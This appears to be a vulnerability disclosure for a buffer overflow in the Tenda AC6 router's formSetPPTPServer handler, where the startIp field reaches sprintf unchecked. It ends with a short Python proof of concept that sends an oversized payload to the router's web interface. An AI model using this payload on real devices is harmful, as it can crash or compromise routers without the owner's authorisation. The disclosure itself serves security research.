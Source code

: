 # buff overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buff overflow in httpd/formSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](6.png)

get value from startIp ,then call sprintf, cause buff overflow

![](7.png)


## POC
```
url = "http://192.168.1.13/goform/formSetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
